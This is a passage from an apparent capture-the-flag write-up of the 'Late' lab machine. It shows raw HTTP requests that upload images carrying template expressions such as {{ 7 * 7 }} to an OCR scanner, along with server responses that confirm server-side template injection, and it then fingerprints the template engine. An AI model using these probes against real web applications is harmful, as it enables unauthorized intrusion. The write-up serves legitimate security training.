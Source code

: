 ```

PNG

   
[... SNIP ...]
png data for image containing {{ 7 * 7 }}
-----------------------------22559853622865390322997987377--

```
and in the response we can see:  
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 14 Jul 2022 14:36:29 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 10
Connection: close
Content-Disposition: attachment; filename=results.txt
Last-Modified: Thu, 14 Jul 2022 14:36:29 GMT
Cache-Control: no-cache
ETag: "1657809389.9371333-10-375655978"

<p>49
</p>
```
so we detected that the site is affected by an SSTI vulnerability.  
Once we have detected the template injection potential, the next step is to identify the template engine.
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. We can follow the tree on [book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), here, fuzzing the template engine we can discover what kind of exploit we can run against the application.
```
POST /scanner HTTP/1.1
Host: images.late.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------404991211334584715701059619541
Content-Length: 1639
Origin: http://images.late.htb
Connection: close
Referer: http://images.late.htb/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------404991211334584715701059619541
Content-Disposition: form-data; name="file"; filename="tmp7.png"
Content-Type: image/png

PNG


[... SNIP ...]
png data for image containing {{ 7 * '7' }}
-----------------------------404991211334584715701059619541--
```
And in the response we get: 
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 14 Jul 2022 14:37:44 GMT
```